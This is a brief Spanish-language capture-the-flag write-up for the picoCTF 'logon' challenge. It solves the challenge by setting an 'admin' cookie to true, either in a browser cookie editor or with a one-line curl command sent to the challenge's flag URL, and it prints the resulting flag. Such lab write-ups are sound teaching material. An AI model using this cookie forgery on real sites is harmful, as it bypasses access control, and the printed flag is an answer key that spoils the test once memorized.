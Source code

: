 # logon


## Descripcion
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
## Pistas
Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solucion
descargar cookie editor para firefox editar el valor de admin a true
o en consola linux usar el comando
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: admin=True"
## Bandera
picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}
## Notas adicionales


## Referencias
